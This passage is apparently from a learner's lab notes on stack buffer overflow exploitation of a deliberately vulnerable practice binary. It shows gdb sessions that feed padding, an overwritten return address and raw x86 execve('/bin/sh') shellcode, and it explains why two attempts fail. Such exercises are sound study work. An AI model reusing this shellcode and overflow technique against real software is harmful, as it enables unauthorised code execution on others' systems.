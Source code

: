 ```sh
(gdb) x/s 0xffffd2bb
0xffffd2bb:     "/bin/sh", 'A' <repeats 11 times>, "\234\317\377\377"
```

- As you can see, `0xffffd2bb` which should only contain only `/bin/sh` also contains the padding which makes our shell code faulty.

## Attempt #2

- How about instead of jumping backwards, to try jumping forward.

```sh
                                             .-----------.
                                             |           |
                                             |           v
   ./vulnerable 5 <--------padding-----><address-of-buf><shell code>
```

- Let's format this exploit as mentioned above and run it inside `gdb`:

```sh
(gdb) r 5 `python3 -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\x9c\xcf\xff\xff'+b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68')"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: silly 5 `python3 -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\x9c\xcf\xff\xff'+b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68')"`

Breakpoint 2, vuln (n=5,
    str=0xffffd278 'A' <repeats 48 times>, "\234\317\377\377\353\027^1\300PV1Ұ\v\211\363\211\341̀1\300\260\0011\333̀\350\344\377\377\377/bin/sh")
    at silly.c:14
14      in silly.c
(gdb) x/x $ebp+8
0xffffcf60:     0x05
```

- As you can see trying this approach will fail too, because `0xffffcf60` address ends with `0` which is same as NULL byte.


---

### Previous problems with exploitation 

- Running this in `gdb` will create a hell of output for some reason:

```sh
(gdb) r 5 `python3 -c "import sys; sh=open('shell', mode='rb').read(); sys.stdout.buffer.write(b'\x41'*(0x30)+b'\xdc\xce\xff\xff'+sh)"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: shellcode/unit_03_shell/bin/vulnerable 5 `python3 -c "import sys; sh=open('shell', mode='rb').read(); sys.stdout.buffer.write(b'\x41'*(0x30)+b'\xdc\xce\xff\xff'+sh)"`
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
1094795585 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAA\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
1094795586 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAAAAAA\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
1094795587 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADAAAAAAAAAAAAAAA\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```